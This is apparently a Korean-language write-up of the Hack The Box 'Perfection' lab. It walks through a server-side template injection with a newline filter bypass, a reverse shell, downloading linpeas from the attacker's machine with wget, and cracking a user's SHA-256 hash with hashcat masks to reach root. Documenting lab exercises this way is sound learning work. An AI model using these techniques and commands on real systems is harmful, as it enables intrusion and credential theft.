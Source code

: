 # hack the box: perfection

- SSTI(Server Side Template Injection)취약점: 웹 어플리케이션에 적용되어 있는 웹 템플릿 엔진(Web Template Engine)에 공격자의 공격 코드가 템플릿에 포함된 상태에서 서버 측에서 템플릿 인젝션이 발현되는 공격을 의미

- category1=1&grade=50&weight=1…
    - SSTI에 취약함
- burpsuite로 테스트를 진행한다.
    - 입력 값을 넣는 곳에 %0A를 넣고 \` \` 안에 스크립트를 삽입한 후 스크립트 전체를 url인코딩하여 실행한다.
        - %0A=\n(개행문자)
        - 개행 문자를 넣은 이유는 스크립트를 그냥 삽입할 경우 malicious code detected 경고가 나와 필터링을 하고 있는 것을 알아차릴 수 있기 때문에 우회 목적으로 넣음
- 반복적인 코드를 템플릿 문서로 만드는 구조로 되어 있다.
- ${7*7}을 넣어 49가 나오는 것으로 보아 server side에서 script가 실행되는 것을 알 수 있다.
    - hacktricks에서 해당 문서를 참조
    - 언어, 프레임워크마다 명령어 종류가 다양함
- reverseshell generator를 이용하여 코드를 생성
    - burpsuite에 넣고 url encoding을 하여 reverse shell을 얻을 수 있다.
    - category1=Maths%0A` <스크립트 삽입>`

- which 로 프로그램 경로 찾을 수 있음
- python3 -c ‘import pty;pty.spawn(”/bin/bash”)’를 한다.
    - pseudo-terminal interface를 import함
    - 그 후 bash shell을 실행
        - 그 이유
        - 완전한 대화형 셸로 업그레이드 하려는 목적
        - 여러 편의성을 위해서 시도
        - 만약 완전한 상호 작용 기능을 제공할 경우 필요 없음
- user.txt의 플래그 값을 찾을 수 있다.

- sqlite3 pupilpath_credentials.db로 db파일을 읽어 susan의 해시 값을 읽을 수 있다.
    - 전 단계에서 susan이 sudo 그룹에 속한 것 때문에 susan의 해시 값을 크랙한다.
    - 만약 그룹에 속하지 않았다면 다른 사용자를 크랙해야 한다.

- hashcat susan.txt /usr/share/wordlists/rockyou.txt
- 크랙은 되지 않았지만 해시 값의 종류를 sha-256으로 좁힐 수 있다.
- hashcat -m 1400 susan.txt /usr/share/wordlists/rockyou.txt 로 시도
    - -m 1400 :sha-256으로 지정
- linpeas.sh를 실행
    - kali에서 python3 -m http.server 4444로 서버 오픈
    - server 터미널에서 wget http://10.10.14.44:4444/linpeas.sh로 다운로드 시킨다.
    - chmod +x linpeas.sh로 하여 실행
- linpeas 결과 중 mail결과에서 pw format을 찾을 수 있다.
    - {firstname_firstname}_{reversed_random}_{integer between1 and 1billion}
                                                  1000000000(9자리 수)
        
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d
    - -a 3: brute force mode
    - ?d : 9자리수 무작위 숫자 지정
- hashcat -m 1400 -a 3 susan.txt susan_nasus_?d?d?d?d?d?d?d?d?d —show로 결과 값 확인
- sudo bash로 크랙 된 pw를 삽입 후 whoami로 root권환을 획득할 수 있다.

# 보충

- [linpeas.sh](http://linpeas.sh) 기능?
    - linux, macOS에서 권한 상승 가능한 리스트를 나타내는 스크립
